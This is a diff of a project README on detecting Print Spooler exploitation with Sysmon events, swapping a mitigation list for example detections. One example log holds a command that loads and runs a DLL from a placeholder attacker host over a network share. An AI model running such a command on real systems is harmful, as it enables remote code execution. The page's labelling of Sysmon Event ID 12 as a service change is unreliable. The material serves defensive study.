

Before and after one commit to dvirItcher/433project, a Markdown page: README.md, the part around the change printed below. Shown: that part at 87% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -55,30 +43,71 @@ The **Print Spooler logs**, like any logging mechanism, have certain limitations
 
 ---
 
-### **Mitigating Log Bypass Risks**
-1. **Enable Verbose Logging**:
-   - Always enable **PrintService Operational** logs and set proper retention policies to avoid overwriting:
-     ```powershell
-     wevtutil sl Microsoft-Windows-PrintService/Operational /e:true
-     ```
+3. **Watch for Remote Code Execution via Print Spooler**
+   - **Sysmon Event ID:** 1 (Process Creation)
+   - **What to Look For:**
+     - Commands like:
+       - `rundll32.exe <path to malicious DLL>, <export function>`
+     - Remote PowerShell execution or unusual PowerShell commands.
+   - **Why:**
+     - The attack often involves executing the malicious DLL using tools like `rundll32.exe` or PowerShell.
 
-2. **Monitor Privileged Actions**:
-   - Use **Windows Event IDs** and **Sysmon logs** to correlate privileged activities (e.g., 7045 for new service creation or 4688 for suspicious process launches).
+   Example log:
+   ```
+   Event ID: 1
+   Image: rundll32.exe
+   Command Line: rundll32.exe \\<attacker_ip>\malicious.dll,EntryPoint
+   ```
+   **Explanation:** The use of `rundll32` to execute DLLs from network shares is suspicious and often indicates exploitation.
 
-3. **Centralize Logging**:
-   - Use a SIEM solution (e.g., Splunk, ELK) to centralize log collection, reducing the risk of tampering. Even if local logs are deleted, centralized copies will remain intact.
+---
 
-4. **File Integrity Monitoring**:
-   - Deploy tools to monitor and alert on changes to the Print Spooler service or its logs (e.g., hash changes in `spoolsv.exe` or deletion of log files).
+4. **Unusual Network Connections**
+   - **Sysmon Event ID:** 3 (Network Connection)
+   - **What to Look For:**
+     - Outbound connections from `spoolsv.exe` to untrusted IPs or domains.
+   - **Why:**
+     - The malicious DLL may connect to a command-and-control (C2) server or exfiltrate data.
 
-5. **Behavioral Detection**:
-   - Look for abnormal behavior (e.g., `rundll32.exe` being invoked by `spoolsv.exe` or unusual network connections) that could indicate exploitation.
+   Example log:
+   ```
+   Event ID: 3
+   Image: C:\Windows\System32\spoolsv.exe
+   Destination IP: <attacker_ip>
+   ```
+   **Explanation:** The Print Spooler service rarely makes outbound connections, especially to unknown IPs.
 
-6. **Regular Patching**:
-   - Ensure systems are updated to mitigate vulnerabilities like PrintNightmare. Disable the Print Spooler service where it isn't needed:
-     ```powershell
-     Stop-Service -Name Spooler -Force
-     Set-Service -Name Spooler -StartupType Disabled
-     ```
+---
 
-By combining **enhanced logging**, **correlation across log types**, and **behavior-based detection**, defenders can reduce the likelihood of successful bypasses.
+5. **File Creation in Unexpected Locations**
+   - **Sysmon Event ID:** 11 (File Create)
+   - **What to Look For:**
+     - Files created in paths related to print spooler exploitation, e.g., `%SYSTEM32%\spool\drivers`.
+   - **Why:**
+     - Attackers often drop files in these locations as part of the attack.
+
+   Example log:
+   ```
+   Event ID: 11
+   Image: C:\Windows\System32\spoolsv.exe
+   Target Filename: C:\Windows\System32\spool\drivers\x64\malicious.dll
+   ```
+   **Explanation:** New DLLs in spool directories without legitimate updates or installations are suspicious.
+
+---
+
+6. **Abnormal Service Behavior**
+   - **Sysmon Event ID:** 12 (Service Configuration Change)
+   - **What to Look For:**
+     - Changes to the Print Spooler service configuration (`spoolsv.exe`).
+   - **Why:**
+     - Attackers might restart or reconfigure the service during exploitation.
+
+   Example log:
+   ```
+   Event ID: 12
+   Service Name: Spooler
+   Start Type: Auto
+   ```
+   **Explanation:** Sudden reconfiguration or service restarts might indicate exploitation attempts.
+
````
Also changed, not shown: other parts of README.md (+46 -45 lines).
